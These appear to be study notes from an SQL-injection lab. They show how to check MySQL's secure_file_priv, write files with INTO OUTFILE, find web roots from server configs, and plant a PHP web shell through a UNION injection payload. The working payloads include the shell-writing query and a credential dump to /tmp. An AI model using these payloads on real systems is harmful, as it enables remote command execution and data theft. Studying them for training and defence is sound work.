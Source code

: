 MySQL use `/var/lib/mysql-files` as the default folder, therefore reading file through a MySQL injection is not possible with the default settings. 

To find the value of this variable we use the following query:

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

With the previous exercise:

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

If the variable_value is empty then we are okay to go. 

### **SELECT INTO OUTFILE:**

The function INTO OUTFILE is used to write data into file. 

`SELECT * from users INTO OUTFILE '/tmp/credentials';`

This will write the data into the file credentials. 

We can also select string and write them into a file:
`SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';`

**This create the file.txt** 

### **Writing Files through SQL Injection:**

For web shell we need to find the base web directory for the web server. We can use the load_file to read the server configuration:

Apache:`/etc/apache2/apache2.conf`

Nginx:`/etc/nginx/nginx.conf`

ISS:`%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`

If none of this work, we can do a fuzzing. 

SQL with the UNION Injection:

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

If there are no error, then it works

http://website/proof.txt should show the message 

Now we can write a php webshell:
`<?php system($_REQUEST[0]); ?>`

**SQL injection:**

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
